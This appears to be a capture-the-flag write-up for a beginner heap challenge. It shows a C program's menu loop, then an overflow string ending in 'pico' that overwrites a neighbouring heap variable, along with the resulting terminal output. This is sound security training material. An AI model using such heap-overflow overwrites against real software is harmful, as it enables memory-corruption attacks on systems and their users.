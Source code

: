 ```c
    while (1) {
        print_menu();
        if (scanf("%d", &choice) != 1) exit(0);

        switch (choice) {
        case 1:
            // print heap
            print_heap();
            break;
        case 2:
            write_buffer();
            break;
        case 3:
            // print safe_var
            printf("\n\nTake a look at my variable: safe_var = %s\n\n",
                   safe_var);
            fflush(stdout);
            break;
        case 4:
            // Check for win condition
            check_win();
            break;
        case 5:
            // exit
            return 0;
        default:
            printf("Invalid choice\n");
            fflush(stdout);
        }
    }
}
```

## Solve:
- Having already done `heap 0`, I had the idea that I have to somehow change the `safe variable` to get the flag. This time the `safe var` had to be equal to `pico` to get the flag.
- Let's boot into the challenge and see if we can somehow replace the value of `safe var`
```zsh
1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 2
Data for buffer: 1234567890123456789012345678901234567890123456789pico

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 3


Take a look at my variable: safe_var = 34567890123456789pico


1. Print Heap:          (print the current state of the heap)
```